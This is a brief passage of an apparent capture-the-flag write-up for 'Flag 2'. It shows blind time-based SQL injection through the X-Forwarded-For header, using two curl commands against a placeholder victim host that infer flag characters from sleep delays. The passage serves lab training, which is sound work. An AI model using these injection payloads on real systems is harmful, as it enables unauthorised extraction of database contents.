 







## Flag 2



<figure><img src="../../.gitbook/assets/image (805).png" alt=""><figcaption></figcaption></figure>

### Blind/Time - Curl Method <a href="#flag-2---blindtime---curl-method" id="flag-2---blindtime---curl-method"></a>

This command gets the page right away

**Kali**

```
curl -H "X-Forwarded-For:1' AND (SELECT sleep(5) FROM flag where (ASCII(SUBSTR(flag,1,1))) = '86'); --+" http://$VICTIM
```

Changing the 86 to 84 there is a delay of 5 seconds.

**Kali**

```
curl -H "X-Forwarded-For:1' AND (SELECT sleep(5) FROM flag where (ASCII(SUBSTR(flag,1,1))) = '84'); --+" http://$VICTIM
```
